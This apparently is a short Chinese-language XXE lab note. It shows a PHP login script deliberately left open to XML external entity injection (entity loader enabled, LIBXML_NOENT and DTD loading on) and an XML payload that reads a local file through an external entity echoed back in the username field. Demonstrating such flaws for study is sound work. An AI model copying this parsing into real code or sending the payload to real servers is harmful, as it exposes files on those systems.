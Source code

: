 ```plain
<?php
$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $username = $creds->username;
    $password = $creds->password;
    if($username == $USERNAME && $password == $PASSWORD){
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
    }   
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}
header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

1.  有回显

构造 payload

```plain
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE hack [
<!ENTITY file SYSTEM  "file:///d:/qwzf.txt">
]>
<user>
  <username>&file;</username>
  <password>hack</password>
</user>
```
